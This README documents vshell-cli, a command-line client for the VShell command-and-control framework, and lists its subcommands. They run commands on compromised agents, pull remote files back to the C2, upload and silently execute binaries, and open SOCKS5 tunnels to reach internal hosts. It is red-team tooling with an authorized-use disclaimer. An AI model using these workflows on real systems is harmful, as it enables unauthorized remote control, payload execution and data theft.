

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/dadvlingd/vshell-cli/releases"></a>
  <a href="https://github.com/dadvlingd/vshell-cli/actions/workflows/release.yml"></a>
  
  
</p>

# vshell-cli

VShell C2 的命令行客户端。用账号密码登录换取 JWT，所有操作通过子命令完成。

> 仅用于自有资产、隔离靶场或已获书面授权范围内的测试。

## 安装

从 [Releases](https://github.com/dadvlingd/vshell-cli/releases/latest) 下载对应平台的压缩包，解压后把 `vshell-cli` 放进 `PATH`。

| 平台 | 架构 | 文件 |
|---|---|---|
| Linux | amd64 / arm64 / 386 | `vshell-cli_<版本>_linux_<架构>.tar.gz` |
| macOS | amd64 / arm64 | `vshell-cli_<版本>_darwin_<架构>.tar.gz` |
| Windows | amd64 / arm64 / 386 | `vshell-cli_<版本>_windows_<架构>.zip` |
| FreeBSD | amd64 | `vshell-cli_<版本>_freebsd_amd64.tar.gz` |

校验下载文件：`shasum -a 256 -c SHA256SUMS`（Linux 用 `sha256sum -c SHA256SUMS`）。

## 配置

首次不带参数运行会在当前目录创建 `config.ini`（Unix 下权限 0600），同时显示命令列表：

```bash
./vshell-cli
```

编辑该文件：

```ini
[vshell]
url = http://127.0.0.1:8082
username = admin
password = <密码>
```

之后运行任意命令都会自动读取。可用 `--config <文件>` 或 `VSHELL_CONFIG` 指定其他路径。

优先级：命令行参数 > 环境变量 > `config.ini` > 交互输入密码。密码留空时，运行时再输入。

> `config.ini` 中的密码是明文，建议 `chmod 600 config.ini`，并确保不提交到版本库。

## 命令总览

所有命令都支持 `--json`（写在命令前）。每个命令的参数与示例见下文对应章节。

| 命令 | 作用 |
|---|---|
| `info` | 面板版本、在线 Agent、监听器、隧道、授权截止 |
| `clients` | Agent 列表，可按在线状态过滤 |
| `exec` | 同步执行命令并返回输出 |
| `exec-async` | 异步下发命令，不等待结果 |
| `shell` | 进入 Agent 交互式会话，支持目录跟踪与本地元命令 |
| `disks` | 列出 Agent 磁盘 |
| `ls` | 列目录，支持分页与排序 |
| `cat` | 读取远程文件，文本/二进制自动处理 |
| `write` | 写入远程文件，内容来自参数或本地文件 |
| `rm` | 删除远程文件/目录 |
| `upload` | 上传本地文件到 Agent |
| `download` | 让 C2 从 Agent 拉取文件 |
| `deploy` | 上传并执行，可只上传或跳过上传 |
| `socks start` | 建立 SOCKS5 隧道 |
| `socks stop` | 停止并删除隧道 |
| `socks list` | 列出隧道 |
| `socks curl` | 经本地 SOCKS5 访问内网 HTTP |
| `listeners` | 监听器列表 |
| `runners` | 内置工具列表 |
| `send` | 单引擎发包（direct / curl） |
| `compare` | direct 与 curl 并行对比发包 |
| `diagnose` | 面板、登录、curl 诊断 |
| `help` | 帮助 |

## 构建

```bash
cd vshell-cli
go build -o vshell-cli .
# 可选：安装到 PATH
go install .
```

依赖：Go 1.26+。只有 `--engine curl` 与 `compare` 会调用系统 `curl`。

## 认证

凭据来源优先级：命令行参数 > 环境变量 > `config.ini` > 交互输入。

```bash
export VSHELL_URL=http://127.0.0.1:8082
export VSHELL_USER=admin
export VSHELL_PASS='<密码>'
```

```bash
./vshell-cli --url http://127.0.0.1:8082 --user admin --password '<密码>' info
```

也可以写入 `config.ini`（见上一节）。`--password`、`VSHELL_PASS` 和配置文件都没有密码时，会交互读取密码（终端下关闭回显）。
每次执行都会重新登录，JWT 只存在于本次进程内存中。

## 使用约定

- 全局参数必须写在命令之前。
- 子命令参数必须写在位置参数之前（Go 的 flag 解析在第一个位置参数处停止）。
- 命令里包含 `&`、`|`、`>` 等 shell 运算符时，整体用引号包住。
- 需要认证的命令在首次 API 调用前自动登录；`send` / `compare` / `diagnose` 不强制登录。
- 所有命令都支持 `--json`（写在命令前），输出结构化 JSON。

全局参数：

| 参数 | 说明 |
|---|---|
| `--url <地址>` | VShell 面板地址（`VSHELL_URL`） |
| `--user <用户名>` | 登录用户名（`VSHELL_USER`），别名 `--username` |
| `--password <密码>` | 登录密码（`VSHELL_PASS`），别名 `--pass` |
| `--config <文件>` | 配置文件路径（`VSHELL_CONFIG`），默认 `./config.ini` |
| `--http-timeout <秒>` | API 请求默认超时，默认 60 |
| `--json` | 结构化 JSON 输出 |
| `--insecure` | 跳过 TLS 证书校验 |
| `--version` / `--help` | 版本 / 帮助 |

## 命令参考

### 1. info — 面板状态

```bash
vshell-cli info
```

输出面板版本、在线 Agent 数、监听器在线数、SOCKS5 隧道数、授权截止时间。
JSON：`{"url":"...","dashboard":{...}}`。

### 2. clients — Agent 列表

```bash
vshell-cli clients [--status online|offline|all]
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--status` | `online` | `online`/`true`/`1`、`offline`/`false`/`0`、`all` |

输出列：在线标记、ID、主机名、内网 IP、地址、系统；末行给总计与在线数。
JSON：`{"items":[...],"total":N,"clientOnlineCount":N}`。

```bash
vshell-cli clients --status all
```

### 3. exec — 同步执行命令

```bash
vshell-cli exec [--timeout 30] <agent_id> <命令...>
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--timeout` | 30 | 等待命令返回的秒数（HTTP 超时自动 +5s） |

剩余位置参数会以空格拼接成一条命令。输出从终端缓冲区中提取，超过 10000 字符截断。
JSON：`{"client_id":3,"command":"...","output":"...","raw":"..."}`。

```bash
vshell-cli exec 3 "whoami & ipconfig"
vshell-cli exec --timeout 120 3 "dir C:\\Users"
```

### 4. exec-async — 异步执行命令

```bash
vshell-cli exec-async <agent_id> <命令...>
```

命令下发后立即返回，不等待执行结果；适合扫描等耗时任务。
JSON：`{"client_id":3,"command":"...","sent":true}`。

```bash
vshell-cli exec-async 3 "start /b C:\\Windows\\Temp\\tool.exe --scan"
```

### 5. shell — 交互式命令会话

```bash
vshell-cli shell <agent_id> [--timeout 60] [--raw]
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--timeout` | 60 | 单条命令等待秒数，会话内可用 `:timeout` 修改 |
| `--raw` | false | 显示原始终端缓冲区，而不是提取后的输出 |

进入后提示符为 `agent-<id>:<当前目录> `，直接输入的内容会发到该 Agent 的 shell；
以 `:` 开头的本地命令不会发出去。

VShell 的 shell 是每条命令独立执行，`cd` 不会在目标端保留。本客户端在本地跟踪
当前目录：`cd` / `pwd` 由客户端处理，其余命令发送前自动加上
`cd '<目录>' && `（Windows 为 `cd /d "<目录>" && `）。因此 `cd ..` 之后再执行
`ls`，会在预期目录下运行，提示符也会同步显示该目录。

支持管道批处理：

```bash
printf 'whoami\n:exit\n' | vshell-cli shell 3
```

Ctrl-D 退出。命令返回非零退出码时，先输出已产生的部分结果，再给出错误；
`exit status 127` 会提示为“命令不存在”。

本地命令：

| 命令 | 作用 |
|---|---|
| `:help` / `:h` | 帮助 |
| `:exit` / `:quit` / `:q` | 退出 |
| `:id <n>` / `:use <n>` | 切换 Agent |
| `:timeout [秒]` | 查看/设置单条命令超时 |
| `:raw [on\|off]` | 切换原始输出 |
| `:info` | 面板状态 |
| `:clients [all\|online\|offline]` | Agent 列表（`*` 标记当前） |
| `:ls [路径]` | 列目录，默认当前目录 |
| `:cat <文件>` | 读文件，最多 100KB |
| `:put <本地> [远程]` | 上传文件 |
| `:get <远程>` | 下载到 C2 |
| `:rm <路径>` | 删除文件/目录 |
| `:pwd` | 查看当前跟踪目录 |

`cd`、`cd ..`、`cd ~`、`pwd` 都是客户端本地处理，不会发到 Agent。

```text
$ vshell-cli shell 4
已连接 Agent 4（:help 查看本地命令，:exit 退出，Ctrl-D 结束）
agent-4:/root/linkexec> whoami
root
agent-4:/root/linkexec> cd ..
agent-4:/root> pwd
/root
agent-4:/root> :ls
/root (3 项):
类型  名称  大小  修改时间
D     linkexec  4096  2026-01-01 10:00:00
agent-4:/root> :exit
```

注意：

- 只跟踪纯 `cd` 命令；`cd /tmp && ls` 这类复合命令会照常执行，但不会更新跟踪目录。
- 目录跟踪依赖目标 shell 支持 `cd` / `pwd`（Windows 为 `cd`）。探测失败时按无状态模式运行，
  命令原样发送。

### 6. disks — 磁盘列表

```bash
vshell-cli disks <agent_id>
```

输出列：名称、是否目录、大小。JSON 为磁盘数组。

### 7. ls — 列目录

```bash
vshell-cli ls [--page 1] [--page-size 100] [--sort-by time|name|size] [--order descend|ascend] <agent_id> <远程目录>
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--page` | 1 | 页码 |
| `--page-size` | 100 | 每页数量 |
| `--sort-by` | `time` | `name` / `time` / `size` |
| `--order` | `descend` | `ascend` / `descend` |

输出列：类型（D/F）、名称、大小、修改时间。
JSON：`{"items":[{"name":"...","size":123,"time":"...","isDir":false}],"total":N}`。

```bash
vshell-cli ls 3 C:/
vshell-cli ls --page 2 --page-size 50 --sort-by name --order ascend 3 C:/Users
```

### 8. cat — 读取文件

```bash
vshell-cli cat [--max-bytes 102400] <agent_id> <远程文件>
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--max-bytes` | 102400 | 最多输出的字节数 |

必须给完整路径（含文件名）。内部自动拆成 `path=C:/`、`target=scan.txt`。
文本直接输出；非 UTF-8 内容以 base64 输出；超长追加截断提示。
JSON：`{"client_id":3,"path":"...","size":N,"shown":N,"truncated":false,"binary":false,"content":"..."}`
（二进制时为 `"base64":"..."`）。

```bash
vshell-cli cat 3 C:/scan.txt
vshell-cli cat --max-bytes 4096 3 C:/Windows/win.ini
```

### 9. write — 写入文件

```bash
vshell-cli write <agent_id> <远程路径> --content '<文本>'
vshell-cli write <agent_id> <远程路径> -c '<文本>'
vshell-cli write <agent_id> <远程路径> --file <本地文件>
```

| 参数 | 说明 |
|---|---|
| `--content` / `-c` | 直接写入的文本；允许空字符串 |
| `--file` | 从本地文件读取内容 |

三个来源只能用一个。JSON：`{"client_id":3,"path":"...","bytes":N,"ok":true}`。

```bash
vshell-cli write 3 C:/temp/note.txt --content 'hello'
vshell-cli write 3 C:/temp/up.bat --file ./up.bat
```

### 10. rm — 删除文件/目录

```bash
vshell-cli rm <agent_id> <远程路径>
```

JSON：`{"client_id":3,"path":"...","deleted":true}`。

```bash
vshell-cli rm 3 C:/temp/note.txt
```

### 11. upload — 上传文件

```bash
vshell-cli upload <agent_id> <本地文件> [--remote '<远程路径>']
```

| 参数 | 说明 |
|---|---|
| `--remote` | 远程保存路径（含文件名）；默认用本地文件名 |

采用 multipart/form-data 直传，超时 120 秒。
JSON：`{"client_id":3,"local":"...","remote":"...","ok":true}`。

```bash
vshell-cli upload 3 ./tool.exe --remote C:/Windows/Temp/tool.exe
vshell-cli upload 3 ./config.ini
```

### 12. download — 从 Agent 拉取文件到 C2

```bash
vshell-cli download [--wait 30] <agent_id> <远程文件>
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--wait` | 30 | 等待下载完成的最大秒数 |

先查文件大小，再触发下载并每秒轮询进度；进度输出到 stderr，JSON 模式不打印进度。
JSON：`{"client_id":3,"remote":"...","size":N,"ok":true}`。

```bash
vshell-cli download 3 C:/Windows/Temp/result.txt
vshell-cli download --wait 120 3 C:/big.zip
```

### 13. deploy — 上传并执行

```bash
vshell-cli deploy <agent_id> [--local <本地文件>] [--remote <远程路径>] \
  [--args '<参数>'] [--no-exec] [--skip-upload] [--timeout 120]
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--local` | 空 | 本地文件；留空则跳过上传 |
| `--remote` | 空 | 远程保存/执行路径；只给 `--local` 时用本地文件名 |
| `--args` | 空 | 追加到执行命令后的参数 |
| `--no-exec` | false | 只上传不执行 |
| `--skip-upload` | false | 跳过上传，直接执行远程路径 |
| `--timeout` | 120 | 执行等待秒数 |

执行命令 = `--remote` + 空格 + `--args`。

```bash
# 上传并执行
vshell-cli deploy 3 --local ./tool.exe --remote C:/Windows/Temp/tool.exe --args '/silent'

# 只上传
vshell-cli deploy 3 --local ./tool.exe --remote C:/Windows/Temp/tool.exe --no-exec

# 文件已存在，直接执行
vshell-cli deploy 3 --remote C:/Windows/Temp/tool.exe --args '/silent' --skip-upload
```

JSON：`{"client_id":3,"remote":"...","uploaded":true,"executed":true,"command":"...","output":"..."}`。

### 14. socks start — 建立 SOCKS5 隧道

```bash
vshell-cli socks start <agent_id> [--port 1080] [--force]
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--port` | 0 | 本地端口；0 表示自动分配 |
| `--force` | false | 端口已有隧道时先停止并删除 |

创建后反查隧道 ID 再启动。输出隧道 ID、端口和后续用法。
JSON：`{"client_id":3,"port":1080,"tunnel_id":1,"ok":true}`。

```bash
vshell-cli socks start 3
vshell-cli socks start 3 --port 1080 --force
```

### 15. socks stop — 停止并删除隧道

```bash
vshell-cli socks stop <port>
```

按端口查找隧道，执行 stop + del。
JSON：`{"port":1080,"tunnel_id":1,"stopped":true}`。

```bash
vshell-cli socks stop 1080
```

### 16. socks list — 隧道列表

```bash
vshell-cli socks list
```

输出列：运行标记、隧道 ID、Agent、端口、模式、备注。

### 17. socks curl — 经隧道发 HTTP 请求

```bash
vshell-cli socks curl <port> <url> [--method GET] [--timeout 30] \
  [-H 'K: V']... [--data '<body>']
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--method` | GET | HTTP 方法 |
| `--timeout` | 30 | 超时秒数 |
| `-H` | 无 | 请求头，可重复 |
| `--data` | 空 | 请求体 |

通过本地 SOCKS5 端口访问内网目标，输出状态码、耗时、大小和响应体（前 6000 字符）。
JSON：`{"engine":"socks5","ok":true,"status":200,"elapsed_seconds":0.1,"size":N,"body":"..."}`。

```bash
vshell-cli socks curl 1080 http://10.0.0.10:8080/
vshell-cli socks curl 1080 http://10.0.0.10/api -H 'Authorization: Bearer x' --method POST --data 'a=1'
```

### 18. listeners — 监听器列表

```bash
vshell-cli listeners
```

输出列：运行标记、ID、模式、监听地址、连接地址、备注。

### 19. runners — 内置工具列表

```bash
vshell-cli runners
```

输出列：ID、名称。

### 20. send — 单引擎发包

```bash
vshell-cli send <url> [--method GET] [--engine direct|curl] \
  [--timeout 30] [-H 'K: V']... [--body '<body>']
```

| 参数 | 默认 | 说明 |
|---|---|---|
| `--method` | GET | HTTP 方法 |
| `--engine` | `direct` | `direct` 直连、`curl` 调系统 curl |
| `--timeout` | 30 | 超时秒数 |
| `-H` | 无 | 请求头，可重复 |
| `--body` | 空 | 请求体（POST/PUT/PATCH 时生效） |

不需要登录。输出状态码、耗时、大小和响应体（前 2000 字符）。
JSON：`{"url":"...","result":{...}}`。

```bash
vshell-cli send http://10.0.0.10:8080/
vshell-cli send http://10.0.0.10/login --method POST --body 'user=admin&pass=1'
vshell-cli send http://10.0.0.10/ --engine curl
```

### 21. compare — 多引擎对比发包

```bash
vshell-cli compare <url> [--method GET] [--timeout 30] [-H 'K: V']... [--body '<body>']
```

并行执行 `direct`、`curl`，输出各引擎的状态码/耗时/大小，并提示：
状态码是否不一致、响应头差异、响应体是否不同。
不需要登录。
JSON：`{"url":"...","results":[...],"status_mismatch":false,"header_diffs":{...}}`。

```bash
vshell-cli compare http://10.0.0.10:8080/
vshell-cli compare https://10.0.0.10/api --insecure --method POST --body '{}'
```

### 22. diagnose — 诊断

```bash
vshell-cli diagnose
```

检查 VShell 面板（含登录）、curl 是否可用，并显示自身版本。
不需要登录；登录失败会记录在报告里，不会中断。
JSON：`{"vshell_ok":true,"dashboard":{...},"curl_ok":true,"curl_version":"...","cli_version":"0.1.0"}`。

### 23. help — 帮助

```bash
vshell-cli help
vshell-cli --help
```

## JSON 与退出码

```bash
vshell-cli --json info
vshell-cli --json --url ... --user ... clients | jq '.items[].HostName'
```

退出码：`0` 成功，`1` 运行/网络错误，`2` 用法错误。

## 与 Python MCP 版的差异

| 点 | 处理 |
|---|---|
| 认证 | 每次命令用账号密码登录，不再依赖预置 JWT |
| ID+1 重试 | 已移除；Agent 离线只报错，不把命令发到别的机器 |
| `file/cat` 路径 | 自动补齐盘符根目录（`C:` → `C:/`） |
| 部署缓存 | CLI 为单次进程，默认重新上传，可用 `--skip-upload` 跳过 |
| 异步接口判定 | 同时接受 `code==0` / `success` / `sent` |
| 文件上传 | 只保留 `/api/file/upload` 一条路径，去掉已失效的 `/api/v1/upload` |

## 测试

```bash
go test ./...
```

测试使用本地 `httptest` 面板与假 SOCKS5 代理，不连接任何真实目标。

## 发布

本地构建全部平台的压缩包与校验和：

```bash
./scripts/build-release.sh 0.1.0
```

产物在 `dist/`，包含 Linux（amd64 / arm64 / 386）、macOS（amd64 / arm64）、
Windows（amd64 / arm64 / 386）、FreeBSD（amd64）压缩包与 `SHA256SUMS.txt`。

推送 `v*` 标签会触发 GitHub Actions，自动完成同样的构建并创建 Release：

```bash
git tag v0.1.0
git push origin v0.1.0
```

## 安全提示

- `config.ini` 中的密码是明文，建议 `chmod 600 config.ini`，并确保不提交到版本库。
- 不需要保存密码时，把 `password` 留空，运行时交互输入。
- `--password` 会出现在 shell 历史与进程列表中；优先用配置文件或 `VSHELL_PASS`。
- JWT 只存在于进程内存，不写入磁盘。
- 本工具没有审计日志和命令白名单；接入真实环境时建议在隔离终端中使用，并自行保留操作记录。
